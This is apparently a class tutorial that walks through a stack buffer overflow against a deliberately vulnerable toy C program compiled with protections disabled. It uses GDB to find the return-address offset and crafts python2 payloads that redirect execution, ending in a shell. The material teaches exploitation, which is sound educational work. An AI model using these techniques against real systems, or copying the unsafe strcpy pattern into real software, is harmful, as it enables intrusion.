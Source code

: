 We're going to walk through the example from class, carrying out a simple stack
buffer overflow attack.

To get started, create a file called example2.c with the example code:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void bar() {
  system("/bin/sh");
}

void foo() {
  printf("hello all!!\n");
  exit(0);
}

void func(int a, int b, char *str) {
  int c = 0xdeadbeef;
  char buf[4];
  strcpy(buf,str);
}

int main(int argc, char**argv) {
  func(0xaaaaaaaa,0xbbbbbbbb,argv[1]);
  return 0;
}
```

Then compile the program with GCC:

```
gcc -m32 -O0 -ggdb -static -U_FORTIFY_SOURCE -fno-stack-protector -zexecstack -no-pie -o example2 example2.c
```

You'll note that we compiled this program with a bunch of flags. These
flags disable many protection mechanism that would make such an attack
harder to carry out. We'll see in class what most of these are.

## Code and environment inspection

Our first goal is to manually modify the stack frames to change the
return address in `fun` to jump (when it returns) to the beginning of
`foo`, instead of returning back to `main`.

To get started, let's start GDB:

```
$ gdb example2
```

Within GDB let's set a breakpoint on `func` and run the program with argument
`"AAAA"`:

```
> b func
> set args "AAAA"
> r
```

To figure out where to jump to, let's first look at the what's on the stack
frame:

Recall that the first argument is off by 8:

```
> x $ebp+8
0xffffced0:     0xaaaaaaaa
```

The second argument is at offset 12:

```
> x $ebp+12
0xffffced4:     0xbbbbbbbb
```

The old `$ebp` is at offset 0:

```
> x $ebp
0xffffcec8:     0xffffcee8
```

If our function returns normally, the `$ebp` will be set to `0xffffcee8`. If
you want to see this, set a breakpoint right after the `strcpy` (`b 17`),
continue (`c` in GDB) and then step through (`s`). You can also stop at the
exact `leave` instruction by setting a break point at the address:

```
> b *0x8049c1e
```

You can find such addresses with `disas`:

```
> disas func
Dump of assembler code for function func:
   0x08049bee <+0>:     push   %ebp
   0x08049bef <+1>:     mov    %esp,%ebp
   0x08049bf1 <+3>:     push   %ebx
   0x08049bf2 <+4>:     sub    $0x14,%esp
   0x08049bf5 <+7>:     call   0x8049c68 <__x86.get_pc_thunk.ax>
   0x08049bfa <+12>:    add    $0x96406,%eax
   0x08049bff <+17>:    movl   $0xdeadbeef,-0xc(%ebp)
   0x08049c06 <+24>:    sub    $0x8,%esp
   0x08049c09 <+27>:    pushl  0x10(%ebp)
   0x08049c0c <+30>:    lea    -0x10(%ebp),%edx
   0x08049c0f <+33>:    push   %edx
   0x08049c10 <+34>:    mov    %eax,%ebx
   0x08049c12 <+36>:    call   0x8049028
   0x08049c17 <+41>:    add    $0x10,%esp
   0x08049c1a <+44>:    nop
   0x08049c1b <+45>:    mov    -0x4(%ebp),%ebx
   0x08049c1e <+48>:    leave
   0x08049c1f <+49>:    ret
End of assembler dump.
```

> NOTE: This address will likely be different on your machine.

Where is the return address? It's 4 off the `$ebp`:

```
> x $ebp+4
0xffffcecc:     0x08049c58
```

Now what is this `0x08049c58` value? It's the address in `main` right after the
call to `func` ( which is at address `0x8039bee`):

```
> disas main
Dump of assembler code for function main:
   0x08049c20 <+0>:     lea    0x4(%esp),%ecx
	 ...
   0x08049c53 <+51>:    call   0x8049bee <func>
   0x08049c58 <+56>:    add    $0x10,%esp
	...
End of assembler dump.
```

Great. Now to to direct the control flow to `foo` instead of back to `main` we
just need to overwrite the return address. We can do this by setting `$ebp+4`:

We can do this by getting `foo`'s address:

```
>  p &foo
$2 = (void (*)()) 0x8049bc0 <foo>
> set {int}($ebp+4)=0x8049bc0
```

Or more simply:

```
> set {int}($ebp+4)=&foo
```

Now if you continue (`c`) the `ret` will jump to `0x8049bc0` and print:

```
hello all!!
```

As an attacker, we need to overflow the buffer to write the return address
though. We can't attach GDB to a process we don't control.

## Overflowing the buffer

So, let's overflow the buffer. To see the effects of the overflow make sure you
set the breakpoint after `strcpy` and let's change the args to go just past
`buf` 4-byte boundary:

```
> b 17
> set args
> set args "AAAABC"
> r
```

If you print the local variable `c` before and after the `strcpy` you'll see
that we've overflow from `buf` into `c`:

```
> p c
$14 = 0xdeadbeef
> c
> p c
$15 = 0xde004342
```

You'll notice that `c` changed from `0xdeadbeef` to `0xde004242`, i.e.,
`0xde"\0CB"`. If we then change the args to `"AAAABCD"` you'll see that `c =
0x00444342`.

But we need to overflow the return address. How do we figure out how much we
need to overflow? Compute the distance between the return address and buffer
start. In `func`:

```
> p $ebp+4-&buf[0]
$16 = 0x14
```

This means that we need to supply an arugment that is 20 bytes long (0x14) to
get up to the return address. Let's do that:

```
> set args "AAAABBBBCCCCDDDDEEEEFFFF"
> r
```

Now if you inspect the contents of the return addresss (after `strcpy`) you'll
see it filled with all `F`s:

```
> x $ebp+4
0xffffcebc:     0x46464646
```

If you let this program continue it will crash with:

> Cannot access memory at address 0x46464646

Why? We'll we're trying to read the instruction at address `0x46464646` to
execute it. That's not a valid address. Let's instead point the program to
`foo` (`0x8049bc0`):


```
> set args $(python2 -c "print 'AAAABBBBCCCCDDDDEEEE\xc0\x9b\x04\x08'")
> r
```

Now if you run the program it will print `hello all`.

We can do all of this from the shell:

```
$ ./example2 `python2 -c "print 'AAAABBBBCCCCDDDDEEEE\xc0\x9b\x04\x08'"`
hello all!!
```

In practice you'll want to get a shell. In our example we can get a shell by
setting the return address to `bar`:

```
> p &bar
$35 = (void (*)()) 0x8049b95 <bar>
> set args $(python2 -c "print 'AAAABBBBCCCCDDDDEEEE\x95\x9b\x04\x08'")
> r
sh-5.0$
```

Realistically you won't have a nice function like `bar` in the process and
you'll need to essentially mock a call to `system` yourself. You can do this by
overflowing the buffer with your (shell) code and have the return address point
to your code instead of existing functions. You'll get to do this in one of you
assignments!


## GEF

You may find [GEF](https://gef.readthedocs.io/en/master/) helpful throught the
quarter.  I like ATT synax for x86: `set disassembly-flavor att` and like the
stack growing downwards to match slides (`gef config context.grow_stack_down
True`).

